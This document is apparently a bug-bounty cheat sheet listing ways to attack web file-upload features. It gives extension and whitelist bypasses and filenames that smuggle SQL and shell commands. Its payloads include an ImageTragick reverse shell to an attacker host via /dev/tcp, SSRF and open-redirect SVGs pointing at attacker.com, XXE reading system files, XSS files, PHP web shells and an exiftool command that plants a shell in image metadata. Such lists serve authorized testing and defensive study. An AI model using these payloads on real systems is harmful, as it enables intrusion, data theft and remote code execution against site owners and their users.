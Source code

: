 ## Upload Function

- Upload Function
    - Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE
    - Blacklisting Bypass
        - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
        - ASP → `asp`, `.aspx`, `.cer`, `.asa`
        - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
        - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
        - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
    - Whitelisting Bypass
        - `file.jpg.php`
        - `file.php.jpg`
        - `file.php.blah123jpg`
        - `file.php%00.jpg`
        - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
        - `file.php%00`
        - `file.php%20`
        - `file.php%0d%0a.jpg`
        - `file.php.....`
        - `file.php/`
        - `file.php.\`
        - `file.php#.png` (Worked on apple.com)
        - `file.`
        - `.html`
    - Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```

            - Using excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using `.gif` file

            ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```

        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```

    - Content-ish Bypass
        - [ ]  Content-type validation
            - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
            to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
            - Small PHP Shell

            ```php
            (<?=`$_GET[x]`?>)
            ```

        - [ ]  Content Bypass Shell
            - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )

            ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```
